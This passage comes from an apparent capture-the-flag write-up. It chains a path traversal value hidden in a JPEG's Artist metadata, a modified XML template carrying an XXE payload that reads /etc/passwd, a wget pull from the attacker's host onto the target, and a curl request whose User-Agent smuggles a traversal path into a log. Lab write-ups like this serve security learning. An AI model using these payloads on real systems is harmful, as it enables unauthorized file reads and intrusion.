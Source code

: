 -   Inject path traversal payload into Artist metadata:
    ```shell
    exiftool -Artist='../tmp/bloodstiller' Cat.jpg
    ```

    -   This creates path: `/credits/../tmp/bloodstiller_creds.xml`
    -   Uses directory traversal to escape `/credits/` directory


#### Step 2: Creating Malicious XML: {#step-2-creating-malicious-xml}

1.  Download the template from web application that we discovered earlier.
    ```shell
     wget http://$box:8080/export.xml
    ```

2.  Modify XML to include XXE payload:
    -   At the moment I am using a POC to read `/etc/passwd` I am doing this as this a world readable file by any user and will provide us proof that we can trigger RCE via XXE.
    -   {{< figure src="/ox-hugo/2025-01-12-074649_.png" >}}
    -   Defines external entity that reads `/etc/passwd`
    -   Maintains original XML structure
    -   Adds payload in predictable location

3.  Place XML file in target location:
    ```shell
    wget http://10.10.14.29:9000/export.xml -O /tmp/bloodstiller_creds.xml
    ```


#### Step 3: Triggering Exploitation: {#step-3-triggering-exploitation}

1.  Trigger log entry creation via web request:
    ```shell
     curl -A "bloodstiller||/../../../../../../../../../../tmp/Cat.jpg" http://$box:8080/
    ```

    -   Uses User-Agent header to inject log entry
    -   Path traversal in URI points to our malicious JPEG

2.  Verify log entry creation:
    ```shell
    tail -f /opt/panda_search/redpanda.log
    ```
    {{< figure src="/ox-hugo/2025-01-11-112300_.png" >}}

3.  Verify it worked:
    ```shell
    cat /tmp/bloodstiller_creds.xml
    ```

    -   {{< figure src="/ox-hugo/2025-01-11-112351_.png" >}}
    -   As we can see it now contains the contents of `/etc/passwd` verifying proof the POC works. Now to move onto exploitation.
